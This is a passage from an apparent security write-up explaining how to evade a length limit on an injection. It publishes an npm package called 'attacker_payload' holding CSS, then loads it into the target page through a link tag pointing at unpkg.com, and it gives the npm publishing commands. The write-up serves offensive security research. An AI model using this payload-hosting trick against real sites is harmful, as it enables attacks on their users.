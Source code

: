 ![unpkg-awesome](/images/newdiary/unpkg-main-page.png)

This solves our problem of not having enough characters, because we can simply use the following as our payload

{% highlight html %}
<link href="https://unpkg.com/attacker_payload@1.0.1/first.css" rel="stylesheet" />
{% endhighlight %}

Where `attacker_payload` is our npm package with just the CSS, and the site will happily load all that junk from the site. This means we can craft payloads of any size that we want and store them in the CSS file uploaded to npm. It is thankfully easy to upload to npm, with just these combination of commands (may not be in the right order, you'll figure it out):

{% highlight bash %}
npm init # initialize with a legitimate name, or else npm will reject
npm adduser
# add the CSS files here
npm publish --access public
{% endhighlight %}
